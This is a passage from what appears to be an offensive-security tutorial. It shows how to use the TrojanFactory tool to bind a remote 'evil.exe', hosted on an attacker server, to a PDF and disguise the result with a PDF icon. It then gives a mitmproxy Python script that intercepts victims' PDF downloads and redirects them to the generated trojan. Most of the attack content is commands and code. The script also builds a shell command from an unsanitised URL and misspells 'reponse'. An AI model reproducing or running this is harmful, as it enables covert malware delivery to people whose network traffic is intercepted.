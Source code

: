 7. So now when client clicks on a PDF file to be downloaded, that download request will be redirected to our fake file. This fake will is what will be downloaded to the clients machine.

*Generating Trojans Using TrojanFactory*
1. We will use the [TrojanFactory](https://github.com/z00z/TrojanFactory) application from GitHub to create a trojan and since it uses AutoIt, we will first install [AutoIt from the main web page](https://www.autoitscript.com/site/autoit/downloads/). The AutoIt download comes as a Windows .exe file, hence we will use the Wine tool to run the .exe on Linux terminal as shown below.
```shell
wine autoit-v3-setup.exe
```
Note : if you don't have wine installed on Linux, run the following command in terminal "dpkg --add-architecture i386 && apt-get update && apt-get install wine32"

2. Next, we will Clone TrojanFactory to our "opt" directory in the linux machine as shown below.
```shell
git clone https://github.com/z00z/TrojanFactory.git
```
Note: to run TrojanFactory, go to the cloned folder and type in "python trojan_factory.py"

3. In order create a trojan... TrojanFactory will do the following for us:
* Combine our evil file with a normal file(pdf, video, image, etc).
* Configure evil file to run silently in the background.
* Change the file icon.
The only thing we need to do is change the file extension... which I will cover later in this documentation

4. We will start off by running TrojanFactory. Along with the command, we will specify the location of the file that we will display for the target client. (For this documentation I will use a adobe acrobat reader readme PDF file as the normal file since it is conveniently stored on the internet and has a *direct URL* to the file. Also, I will host my evil file on my web server so TrojanFactory can combine it with the normal file.)
```shell
python trojan_factory.py -f https://pubs.usgs.gov/dds/dds-057/ReadMe.pdf -e http://10.15.262.5/evil.exe -o /var/www/html/ReadResult.exe -i /root/Downloads/pdf.ico -z
```
Note: here -f to specify the location of normal file, -e is to specify the location of evil file, -o is the location to store the result, -i is the location of the Trojan icon that is to be used, here I am using a PDF icon since the target download extension is a PDF. and -z to zip the file. Type in "python trojan_factory.py --help" for more info.

*Executing Bash Commands and Calling TrojanFactory From Our Script.*
1. We will write the following code in the proxyscript.py file using any text editor. In this script, we will call TrojanFactory (execute a bash command in the py script) to generate a trojan and then we will serve that trojan with the expected response to the client. In the below script we are intercepting PDF file. Feel free to intercept any file(.jpg, .exe, etc.) you want by changing the endswith extension. If you do change the extension, make sure to change the -i file to specify an icon that corresponds to the front_file extension.
```python
import mitmproxy
import subprocess

def request(flow):
    #code to handle request flows
    if flow.request.host != "10.15.262.5" and flow.request.pretty_url.endswith(".pdf"):
        print("[+] Got an intriguing flow")

        front_file = flow.request.pretty_url + "#"

        subprocess.call("python /opt/TrojanFactory/trojan_factory.py -f '" + front_file + "' -e http://10.15.262.5/evil.exe -o /var/www/html/file.exe# -i /root/Downloads/pdf.ico", shell=True)

        flow.reponse = mitmproxy.http.HTTPResponse.make(301, "", {"Location":"http://10.15.262.5/file.zip"})
```
